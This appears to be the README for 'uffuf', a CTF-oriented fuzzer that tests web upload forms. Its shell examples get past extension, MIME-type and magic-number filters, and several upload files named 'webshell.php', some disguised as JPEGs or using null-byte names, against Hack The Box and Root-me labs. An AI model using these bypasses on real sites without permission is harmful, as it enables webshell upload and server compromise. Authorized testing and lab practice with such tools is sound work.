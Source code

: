 # Unrestricted File Upload Fuzzer

uffuf is a specialized tool inspired by the popular fuzzer [ffuf](https://github.com/ffuf/ffuf). It allows users to fuzz file names, content types, and other parameters, to assist in identifying vulnerabilities related to unrestricted file uploads in web applications. It's an alternative to Burp Suite or other web proxies.

#### Basic Usage

* Filename Fuzzing — Bypassing Filename Checks

```shell!
$ onectf uffuf -u https://example.com -p uploadFile -F myFile -w myWordlist -Fn dummyFUZZ
$ # Attempt by prepending a valid extension (filter)
$ onectf uffuf -u https://example.com -p uploadFile -F myFile -w myWordlist -Fn dummy.jpgFUZZ
$ # Attempt by appending a valid extension (misconfiguration, rare)
$ onectf uffuf -u https://example.com -p uploadFile -F myFile -w myWordlist -Fn dummyFUZZ.jpg
```

* MIME type — Investigate the filter

```shell!
$ # Attempt MIME type bypass
$ onectf uffuf [...] -Ft image/jpeg
$ # Attempt magic number bypass
$ onectf uffuf [...] -Ft image/jpeg --spoof
```

* MIME type Fuzzing — Detect Allowed MIME types

```shell!
$ # --spoof is optional if the server don't check the magic number
$ onectf uffuf -u https://example.com -p uploadFile -F myFile -w myWordlist -Ft FUZZ --spoof
```

#### Testing

* Blacklist some extensions (`https://academy.hackthebox.com/module/136/section/1288`)

```shell!
$ onectf uffuf -u <IP:port>/upload.php -p uploadFile -w web-extensions.txt -Fn testFUZZ -mr "File successfully uploaded"
```

* Blacklist and whitelist extensions (`https://academy.hackthebox.com/module/136/section/1289`)

```shell!
$ onectf uffuf -u <IP:port>/upload.php -p uploadFile -w web-extensions.txt -Fn testFUZZ.jpg -mr "File successfully uploaded"
```

* Blacklist and whitelist extensions, MIME type and magic number checking (`https://academy.hackthebox.com/module/136/section/1290`)

```shell!
$ file webshell.php.jpg
webshell.php.jpg: JPEG image data
$ onectf uffuf -u <IP:port>/upload.php -p uploadFile -w web-extensions.txt -F webshell.php.jpg -Fn test.jpgFUZZ -Ft image/jpg -mr "File successfully uploaded"
```

Alternatively, we can use the `--spoof` flag:

```shell!
$ onectf uffuf -u <IP:port>/upload.php -p uploadFile -w web-extensions.txt -F webshell.php -Fn test.jpgFUZZ -Ft image/jpg -mr "File successfully uploaded" --spoof
```

#### Missing Features

* Add an initial dummy test
* Improve Verbose Mode
* Add option to test if uploaded file is executable?
* Root-me notes

```ps
$ onectf uffuf -u URL -p file -F webshell.php -Fn dummyFUZZ -v -W .php.png
$ onectf uffuf -u URL -p file -F webshell.php -Fn dummyFUZZ -v -W .php -Ft 'image/jpeg' -H 'Cookie: PHPSESSID=xxx'
$ onectf uffuf -u URL -p file -F webshell.php -Fn dummyFUZZ -v -W '.php%00.jpg' -Ft 'image/jpeg'
$ onectf uffuf -u URL -p file -F webshell.zip -Fn dummyFUZZ -v -W .zip
$ onectf uffuf -u URL -d 'xxx=yyy' -p file -F webshell.zip -Fn dummyFUZZ -v -W .jpg
$ onectf uffuf -u URL -p 'file[]' -F webshell.jpg -Fn dummyFUZZ -v -W x.jpg
```